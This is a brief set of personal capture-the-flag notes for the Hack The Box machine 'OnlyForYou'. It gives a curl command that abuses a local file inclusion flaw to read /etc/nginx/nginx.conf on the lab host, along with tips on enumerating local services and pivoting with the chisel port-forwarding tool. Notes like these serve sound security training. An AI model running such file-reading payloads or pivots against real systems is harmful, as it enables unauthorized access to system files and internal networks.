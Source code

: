 # Methodologies Notes from CTFs!

## From OnlyForYou HTB Machine

## Difficulty Level: Medium

## Notes:

- Using curl to view the data into the terminal at the moment! We can send our modified request through it's present options.

**Example**:

- for checking the nginx.conf file through this LFI vulnerability:

```
curl -s -X POST http://beta.only4you.htb/download -d "image=/etc/nginx/nginx.conf"
```

### Enumeration Tips

- Check for the locally running services, learn about them and also make a good grasp on port forwarding like concepts.

**take look at** ***chisel*** a good tool can be used for port forwarding stuffs:
    - https://exploit-notes.hdks.org/exploit/network/port-forwarding/port-forwarding-with-chisel/
    - https://github.com/jpillora/chisel


